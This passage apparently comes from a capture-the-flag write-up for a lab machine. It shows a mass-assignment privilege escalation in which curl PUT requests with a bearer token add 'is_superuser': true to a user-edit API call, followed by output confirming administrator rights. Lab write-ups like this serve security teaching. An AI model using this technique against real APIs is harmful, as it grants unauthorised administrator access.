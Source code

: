 ![](images/Pasted%20image%2020220826215848.png)

---

## API Privilege Escalation

The `PUT /api/v1/user/$ID/edit` allows a user to change their `profile` attribute.

```bash
$ curl -s -X PUT -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU1NDg0LCJpYXQiOjE2NjE1NjQyODQsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjpmYWxzZSwiZ3VpZCI6IjhjMjg5NjAzLTdiYTUtNGRjYy05ZjdiLTUwYzdhMjQ4OTg0YiJ9.JaI2VfV8agu2GfjK9t-5JFg7LSTsd76VCmW5Lce8chA' -H 'Content-Type: application/json' -d '{"profile": "blah"}' http://10.129.227.139/api/v1/user/12/edit
{"result":"true"}
```

The endpoint should be implemented such that it only allows users to update thier `profile` attribute. However, it appears that if an a JSON object with other attributes defined is input, the endpoint updates those attributes as well. The attribute that appears to differentiate between an administrator and a non-administrator is the `is_superuser` attribute. Leverage this vulnerability to set the current user's `is_superuser` value to `true`, making them an administrator.

```bash
$ curl -s -X PUT -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU1NDg0LCJpYXQiOjE2NjE1NjQyODQsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjpmYWxzZSwiZ3VpZCI6IjhjMjg5NjAzLTdiYTUtNGRjYy05ZjdiLTUwYzdhMjQ4OTg0YiJ9.JaI2VfV8agu2GfjK9t-5JFg7LSTsd76VCmW5Lce8chA' -H 'Content-Type: application/json' -d '{"profile": "blah", "is_superuser": true}' PUT http://10.129.227.139/api/v1/user/12/edit
{"result":"true"}                                                                                                                                           
$ curl -s http://10.129.227.139/api/v1/user/12 | jq
{
  "guid": "8c289603-7ba5-4dcc-9f7b-50c7a248984b",
  "email": "tgihf@backendtwo.htb",
  "profile": "blah",
  "last_update": null,
  "time_created": 1661563880203,
  "is_superuser": true,
  "id": 12
}
```

